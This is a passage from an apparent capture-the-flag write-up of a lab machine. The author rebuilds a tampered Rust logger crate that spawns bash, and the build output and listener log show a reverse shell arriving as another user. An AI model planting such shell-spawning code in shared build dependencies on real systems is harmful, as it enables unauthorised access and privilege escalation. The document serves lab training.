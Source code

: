 We now have to recompile the Rust code using cargo build:

```
silentobserver@sandworm:/opt/crates/logger/src$ cargo build
   Compiling autocfg v1.1.0
   Compiling libc v0.2.142
   Compiling num-traits v0.2.15
   Compiling num-integer v0.1.45
   Compiling time v0.1.45
   Compiling iana-time-zone v0.1.56
   Compiling chrono v0.4.24
   Compiling logger v0.1.0 (/opt/crates/logger)
error: expected `;`, found keyword `let`
  --> src/lib.rs:12:37
   |
12 | .expect("failed to execute process")
   |                                     ^ help: add `;` here
13 |     let now = Local::now();
   |     --- unexpected token

error: could not compile `logger` due to previous error
warning: build failed, waiting for other jobs to finish...
```

I forgot a semicolon! god dammit. I quickly fix the mistake:

```
silentobserver@sandworm:/opt/crates/logger/src$ vi lib.rs
silentobserver@sandworm:/opt/crates/logger/src$ cargo build
   Compiling logger v0.1.0 (/opt/crates/logger)
warning: unused variable: `output`
 --> src/lib.rs:8:9
  |
8 |     let output = Command::new("bash")
  |         ^^^^^^ help: if this is intentional, prefix it with an underscore: `_output`
  |
  = note: `#[warn(unused_variables)]` on by default

warning: `logger` (lib) generated 1 warning
    Finished dev [unoptimized + debuginfo] target(s) in 0.49s
silentobserver@sandworm:/opt/crates/logger/src$

```

And the file successfully compiled. Seconds later, we get a reverse shell! We have the shell as the atlas user (as we expected since the lib.rs file is owned by atlas), but now we're no longer in a jail, meaning this is progress.

```
Listening on 10.10.14.18 4444 (krb524)
Connection from 10.10.11.218:41810
bash: cannot set terminal process group (700939): Inappropriate ioctl for device
bash: no job control in this shell
atlas@sandworm:/opt/tipnet$
```

